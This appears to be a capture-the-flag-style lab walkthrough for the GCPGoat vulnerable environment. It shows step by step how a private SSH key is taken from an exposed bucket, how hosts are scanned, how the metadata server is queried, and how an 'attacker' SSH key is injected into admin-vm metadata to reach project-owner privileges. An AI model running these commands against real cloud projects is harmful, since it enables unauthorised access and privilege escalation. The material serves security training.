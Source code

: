 In this Part 02 of the lab, we will use the credentials of a low-privileged virtual machine (VM) that we found in the dev bucket. We'll use these credentials to pivot and access higher-privileged compute instances via the low-privileged machine.


### Phase 1: Reconnaissance and Initial Access

#### 1. Explore the Compromised Development Bucket

First, we list the contents of the development bucket that was compromised in the previous lab:


![Development bucket contents showing config.txt file](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-01.png)


We notice that there is an interesting file **config.txt** in the `.ssh` directory. This could contain sensitive information.


#### 2. Retrieve and Analyze Configuration Files

We access the config.txt file from the bucket:

```bash
https://storage.googleapis.com/<DEV BUCKET NAME>/shared/files/.ssh/config.txt

```

![Config file showing IP addresses and user information](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-02.png)

The file contains multiple IP addresses, usernames, and paths to SSH keys.

#### 3. Identify Active Hosts

with Nmap, we scan the IP addresses found in the config file to determine which hosts are accessible:

```bash

nmap <IP_ADDRESS> -Pn

```

![Nmap scan results showing open port 22](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-03.png)

One of the IP addresses has port 22 (SSH) open. From the config file, we can identify this as the instance associated with user **justin**.


#### 4. Retrieve SSH Key

We download the SSH private key for justin, and change the permissions to read-only for the current user only:

```bash

wget https://storage.googleapis.com/<DEV_BUCKET_NAME>/shared/files/.ssh/keys/justin.pem

chmod 400 justin.pem

```

![Downloaded SSH key with proper permissions](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-04.png)

### Phase 2: Initial VM Access and Reconnaissance

#### 5. Connect to the Low-Privileged VM

We use the SSH key to access the VM, and the IP address is the the one corresponding to justin in the config file:

```bash

ssh -i justin.pem justin@<IP_ADDRESS>

```

![Successful SSH connection to the VM](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-05.png)

We logged in successfully as the screen shows.

#### 6. Gather Project Information

Check the VM's service account and project details: 

```bash

gcloud config list

``` 

![gcloud config showing project and account information](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-06.png)


This VM is using the default compute service account, which typically has **Editor** level access but might be restricted by access scopes.

#### 7. Check Service Account Access Scopes

Examine the access scopes applied to the VM:

```bash

curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes \

    -H 'Metadata-Flavor:Google'

```
 

![Service account scopes showing compute and storage access](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-07.png)

The VM has full access to compute services and read access to storage buckets.
 

### Phase 3: Discovery of High-Value Targets  

#### 8. Enumerate Compute Instances

We list all compute instances in the project:
 

```bash

gcloud compute instances list

```
  

![List of compute instances showing admin-vm](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-08.png)  

We've identified another VM named **admin-vm**. Keep the public IP address for this instance, we will need it after. 

We will access this VM by modifying its metadata.

### Phase 4: Privilege Escalation via Metadata Modification 

#### 9. Generate New SSH Key Pair

Create a new SSH key for accessing the admin VM:
 

```bash

ssh-keygen -t rsa -C "attacker" -f ./key -P ""

```
 

![SSH key generation output](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-09.png)

This creates a public key (key.pub) and private key (key) for a user named "attacker".

#### 10. Prepare Metadata Update File

We Create a metadata file with the new SSH key:

```bash

NEWKEY="$(cat ./key.pub)"

echo "attacker:$NEWKEY" > ./meta.txt

cat ./meta.txt  # Verify the contents

```
We store the public key in the **NEWKEY** variable and the we add the **USER:KEY** data to the **meta.txt** file.

![Content of meta.txt file showing SSH key](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-10.png)


#### 11. Update the Admin VM's Metadata

Then, we add the SSH key to the admin VM's metadata, using the below command:  

```bash

gcloud compute instances add-metadata admin-vm --metadata-from-file ssh-keys=meta.txt

```  

![Adding metadata to the admin VM](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-11.png) 

This command will add the content of meta.txt in the ssh-keys section of the instance metadata.

If prompted, confirm the zone selection with **Y**. 

#### 12. Verify Metadata Update

We confirm that the metadata was successfully updated:
 

```bash

gcloud compute instances describe admin-vm --zone us-west1-c

```

![Instance description showing updated SSH keys](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-12.png)
 

The SSH key for user "attacker" should now be visible in the metadata.
 

### Phase 5: Accessing the High-Privileged VM  

#### 13. Connect to the Admin VM 

Use the newly created SSH key to access the admin VM:
 

```bash

ssh -i ./key attacker@<ADMIN_VM_IP> # Replace with the Public IP address of the admin-vm instance

```  

![Successfully connected to admin VM](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-13.png)

We now have access to the admin VM. By default, users added through instance metadata have sudo privileges.  

#### 14. Examine Service Account Privileges 

We check the project and service account details again to make sure:

```bash

gcloud config list

```

![Admin VM service account information](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-14.png)

The admin VM is using a service account named **admin-service-account**.

#### 15. Examine IAM Policies

we check the permissions assigned to this service account:

```bash

gcloud projects get-iam-policy <PROJECT_ID>

```


![IAM policy showing owner role](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-15.png)

The admin service account has the **owner** role on the project, which will grant us full administrative access.

#### 16. Verify API Access Scopes
 

We check the access scopes for the admin VM:

```bash

curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes \

    -H 'Metadata-Flavor:Google'

```

![Scopes showing cloud-platform access](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-16.png)


The VM has the **cloud-platform** scope, which provides full API access to all Google Cloud services.

### Alternative Method for Admin VM Access

#### 17. Direct SSH from Developer VM

We can also use the gcloud command to directly SSH to the admin VM:


```bash

gcloud compute ssh admin-vm

```

This command will add the current user to the admin-vm instance by modifying the metadata.

![Direct SSH access to admin VM](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-17.png)

We are now logged in to the admin-vm with user justin.
